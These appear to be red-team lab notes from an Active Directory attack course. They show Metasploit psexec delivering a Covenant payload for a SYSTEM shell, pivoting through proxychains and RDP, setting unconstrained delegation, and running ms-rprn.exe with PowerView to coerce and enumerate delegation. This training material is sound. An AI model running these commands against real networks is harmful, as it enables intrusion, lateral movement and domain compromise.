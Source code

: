 
**In Metasploit**:
```powershell
use exploit/windows/smb/psexec
set options # but we dont know the RHOSTS of worksation-02

# we can open the session of workstation-01 and ping workstation-02 to know the IP
set payload windows/x64/exec
set cmd <paste the payload of covenant here>
exploit -j
```

> we should gain a shell in the Covenant Listener
its SYSTEM integrity but SessionID=0
we can try to improve to a SessionID=1


## Remoting Through ProxyChains
**In Covenant system shell**:
```powershell
PowerShellRemotingCommand <computername> <"command"> <domain> <username> <password>
"command can be reverse http from listener"
# we should get a shell with high integrity and user2 access.
```

**in Kali**:
```powershell
proxychains xfreerdp /u:<user2> /p:'Password123!' /v:<workstation-02 IP> /d:<domain>
```

> In order to this process work: we need **socks proxy** set in metasploit, **autoroute** and **portfwd** too cause we are accessing a machine in another network.



- gain access to workstation-02
- we can go further and pivot to DC01 through Remote Desktop


## Unconstrained Delegation

> [Note] that the following command needs to be ran from an Administrator/elevated Powershell prompt on DC01 as well prior to doing this lesson

```powershell
Get-ADComputer -Identity Workstation-02 | Set-ADAccountControl -TrustedForDelegation $true
```

**Bloodhound**:
```powershell
analysis > shortest paths to unconstrained delagation systems
```

**In Covenant system/0 shell**:
```powershell
upload > C:\users\public\ms-rprn.exe > browser > select ms-rprn.exe > execute
ChangeDirectory C:\users\public
shell ms-rprn.exe \\TargetServer \\targetHost
PowerShellImport > PowerView_dev.ps1
Powershell get-netcomputer -unconstrained -properties dnshostname
# it shows the hostnames that have unconstrained delegation
```
